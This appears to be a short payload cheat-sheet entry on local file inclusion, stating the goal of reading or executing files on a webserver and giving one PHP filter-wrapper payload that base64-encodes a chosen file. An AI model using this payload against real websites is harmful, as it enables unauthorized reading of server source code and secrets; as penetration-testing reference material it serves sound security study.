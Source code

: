 # Local File Inclusion

## Goal

Get or execute File on webserver

## Payload

```
php://filter/convert.base64-encode/resource=*filename*
```